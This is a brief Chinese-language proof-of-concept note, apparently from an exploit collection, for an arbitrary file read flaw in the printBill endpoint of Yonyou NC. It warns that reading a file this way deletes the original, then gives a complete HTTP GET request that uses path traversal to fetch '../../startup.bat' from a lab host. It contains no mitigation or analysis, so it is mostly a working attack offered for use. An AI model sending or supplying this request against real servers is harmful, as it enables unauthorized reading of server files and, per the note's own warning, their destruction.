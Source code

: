 ## 用友NC系统printBill接口存在任意文件读取漏洞

`注意：这个漏洞在读取文件的时候，会将原来的文件删除，谨慎使用。`

## poc
```
GET /portal/pt/printpdf/printBill?pageId=login&filePath=../../startup.bat HTTP/1.1
Host: 192.168.63.129:8088
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

```

![image](../../images/af404736-3588-4d7c-a76e-d781fb1d1251.png)



